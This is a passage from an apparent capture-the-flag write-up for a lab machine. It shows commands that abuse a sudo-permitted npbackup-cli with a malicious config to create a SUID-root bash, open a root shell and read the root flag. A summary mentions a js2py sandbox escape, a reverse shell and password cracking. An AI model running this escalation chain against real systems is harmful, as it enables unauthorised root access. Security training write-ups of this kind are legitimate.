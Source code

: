 Run backup to trigger payload:

```plaintext
echo test | sudo /usr/local/bin/npbackup-cli -c /dev/shm/pwn.yml --stdin
```

Check payload result:

```plaintext
ls -l /tmp/broot
```

We now have a **SUID-root bash**.

## Root Shell

Run:

```plaintext
/tmp/broot -p
id
cat /root/root.txt
```

**Root Flag:** ✅ (redacted)

## 6\. Summary

* **Recon:** Nmap revealed SSH + Gunicorn web server
    
* **Initial Access:** Discovered CodeTwo JS IDE → Source leak → js2py sandbox escape (CVE-2024–28397) → Reverse shell
    
* **User:** Extracted MD5 hash → cracked Marco’s password → SSH access → User flag
    
* **Privilege Escalation:** Abused
    

```plaintext
npbackup-cli
```

sudo with malicious config → Root shell → Root flag
